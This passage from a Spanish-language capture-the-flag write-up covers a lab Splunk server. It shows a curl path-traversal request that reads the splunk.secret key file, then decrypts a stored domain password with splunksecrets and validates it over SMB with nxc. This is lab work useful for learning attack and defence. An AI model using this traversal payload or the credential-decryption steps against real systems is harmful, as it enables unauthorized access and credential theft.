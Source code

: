 Se ve como una credencial del dominio. Pero hay un pequeño problema y es que la contraseña está encriptada por Splunk, sin embargo, teniendo acceso al sistema de archivos esto es fácil de contrarrestar.

Este software encripta las credenciales con el contenido de un archivo de texto llamado `splunk.secret`, que está normalmente en `$SPLUNK_HOME/etc/auth/`:

```bash
❯ curl -v 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret'              
*   Trying 10.10.11.61:8000...
* Connected to 10.10.11.61 (10.10.11.61) port 8000
* using HTTP/1.x
> GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret HTTP/1.1
> Host: 10.10.11.61:8000
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 27 Jun 2025 06:47:56 GMT
< Content-Type: text/html
< X-Content-Type-Options: nosniff
< Last-Modified: Wed, 05 Mar 2025 07:29:08 GMT
< Content-Length: 254
< Vary: Accept-Encoding, Cookie
< Connection: Keep-Alive
< Accept-Ranges: bytes
< Set-Cookie: session_id_8000=3c3bfd26bc236c6cb7561d1252303853191a4b8f; expires=Fri, 27 Jun 2025 07:47:56 GMT; HttpOnly; Max-Age=3600; Path=/
< Server: Splunkd
< 
* Connection #0 to host 10.10.11.61 left intact
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

Podemos utilizar una herramienta llamada [splunk-secrets](https://github.com/HurricaneLabs/splunksecrets) ahora para desencriptar esto con facilidad:

```bash
❯ splunksecrets splunk-decrypt -S splunk/splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=' 
Ld@p_Auth_Sp1unk@2k24
```

y probando por la combinación de nombre y apellido separados por un punto...

```bash
❯ nxc smb haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
```
